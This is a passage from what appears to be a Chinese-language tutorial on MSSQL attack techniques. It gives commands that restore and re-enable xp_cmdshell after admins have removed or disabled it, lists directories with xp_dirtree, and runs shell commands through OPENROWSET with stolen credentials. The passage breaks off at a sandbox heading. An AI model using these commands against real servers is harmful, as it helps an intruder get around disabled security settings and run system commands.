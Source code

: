 2. 无法装载 DLL xpsql70.dll 或该DLL所引用的某一 DLL。原因126（找不到指定模块。）

恢复方法：



```
EXEC sp_dropextendedproc "xp_cmdshell"
EXEC sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll'
```

3. 无法在库 xpweb70.dll 中找到函数 xp_cmdshell。原因: 127(找不到指定的程序。)

恢复方法：



```
exec sp_dropextendedproc 'xp_cmdshell'
exec sp_addextendedproc 'xp_cmdshell','xpweb70.dll'
```

4. SQL Server 阻止了对组件 'xp_cmdshell' 的 过程'sys.xp_cmdshell' 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp_configure 启用 'xp_cmdshell'。有关启用 'xp_cmdshell' 的详细信息，请参阅 SQL Server 联机丛书中的 "外围应用配置器"。

恢复方法：

```
执行:EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
```

**xp_dirtree**

获取文件信息,可以列举出目录下所有的文件与文件夹

参数说明:目录名,目录深度,是否显示文件 



```
execute master..xp_dirtree 'c:' 
execute master..xp_dirtree 'c:',1 
execute master..xp_dirtree 'c:',1,1
```

**OPENROWSET**

OPENROWSET 在MSSQL 2005及以上版本中默认是禁用的.需要先打开:

打开语句:

[![](https://p5.ssl.qhimg.com/t0168fd0f7b16dcccbf.png)](https://p5.ssl.qhimg.com/t0168fd0f7b16dcccbf.png)

然后执行:

```
SELECT * FROM OPENROWSET('SQLOLEDB', '数据库地址';'数据库用户名';'数据库密码', 'SET FMTONLY OFF execute master..xp_cmdshell "dir"');
```

这种攻击是需要首先知道用户密码的.

**沙盒**
